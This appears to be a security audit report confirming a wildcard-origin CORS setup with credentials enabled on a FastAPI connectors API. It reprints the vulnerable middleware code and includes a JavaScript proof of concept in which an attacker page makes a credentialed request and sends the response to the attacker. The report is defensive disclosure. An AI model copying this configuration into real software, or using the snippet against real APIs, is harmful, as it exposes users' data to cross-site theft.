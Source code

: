 # 🔍 SECURITY AUDIT VERIFICATION COMPLETE

**Quality Engineer**: Detailed Audit of Critical Issues
**Date**: 2025-09-29
**Status**: 🔴 **ALL 3 CRITICAL VULNERABILITIES CONFIRMED** 🔴

---

## ✅ VERIFICATION SUMMARY

I have performed hands-on verification of the three critical security vulnerabilities previously reported. All three issues are **CONFIRMED** and **ACTIVELY EXPLOITABLE** in the current codebase.

---

## 🚨 VERIFIED CRITICAL ISSUE #1: CORS CONFIGURATION

### Status: ❌ **CONFIRMED - EXPLOITABLE NOW**

**File**: `app/connectors/main.py` (lines 14-20)

**Actual Code Found**:
```python
app.add_middleware(
    CORSMiddleware,
    allow_origins=["*"],           # ⚠️ ANY ORIGIN ALLOWED
    allow_credentials=True,        # ⚠️ WITH CREDENTIALS
    allow_methods=["*"],           # ⚠️ ALL METHODS
    allow_headers=["*"],           # ⚠️ ALL HEADERS
)
```

### Verification Details:
- ✅ Confirmed `allow_origins=["*"]` in production code
- ✅ Confirmed `allow_credentials=True` enabled
- ✅ No restrictions on methods or headers
- ✅ Affects MCP Connectors API (port 8003)

### Attack Readiness: **IMMEDIATE**
Any attacker with basic JavaScript knowledge can exploit this **right now**:

```javascript
// Attacker's malicious site
fetch('http://your-api:8003/shopify/products', {
  credentials: 'include',  // Sends victim's cookies
  method: 'POST'
}).then(r => r.json()).then(data => {
  // Attacker now has data
  sendToAttacker(data);
});
```
